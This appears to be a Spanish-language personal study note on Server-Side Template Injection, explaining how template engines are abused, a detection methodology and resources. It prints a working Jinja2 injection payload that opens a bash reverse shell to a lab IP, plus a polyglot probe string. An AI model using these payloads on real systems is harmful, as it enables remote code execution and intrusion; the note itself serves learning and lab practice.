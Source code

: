 ### ¿Qué es SSTI? 
El Server-Side Template Injection traduciría a algo como Inyección en las Plantillas del Lado del Servidor, y acontece cuando es capaz de inyectar un payload malicioso en una de estas plantillas, normalmente en forma de comandos. Los *template engines* funcionan interpretando información de inputs y modificando la estructura estática de la página con contenido dinámico, que cambia por distintos factores como las acciones del usuario.
Cuando la sanitización de los campos que modifican esta información es insuficiente, el atacante puede aprovecharse enviando comandos directamente al servidor, llevando al control total del sistema en forma de RCEs o similares.
Realmente, no es que los comandos se envíen directamente, la idea es ir probando distintos payloads para identificar a que template engine nos enfrentamos, una vez ya sabemos esto, podemos explotar de manera crítica buscando el RCE.
![[ssti.png|554x334]]
Por ejemplo, en un laboratorio que acabo de resolver, tras descubrir con `{{7*7}}` que estaba trabajando con un Jinja2, sirviéndome de los recursos de PayLoadsAllTheThings y PortSwigger conseguimos muy fácilmente una revshell con esta línea:
``` python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'").read() }}
```

## Metodología

![[SSTI-steps.png|373x384]]

## Payloads 
En la mayoría de casos, este payload mostrará un error si es que la web es vulnerable a SSTI:
```
${{>%[%'"}}%\. 
```
### Recursos
[Demostración de Seven Seas Security](https://youtu.be/8o5QPU-BvFQ)
[SSTImap](https://github.com/vladko312/SSTImap)
[Table de template injection](https://cheatsheet.hackmanit.de/template-injection-table/)
[Demo de explotación](https://youtu.be/8o5QPU-BvFQ?list=PL65_wYSEg5HdSq1pSZxQmz7SoNE48vOgR)
### Artículos
[Artículo de PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
[PortSwigger](https://portswigger.net/web-security/server-side-template-injection)
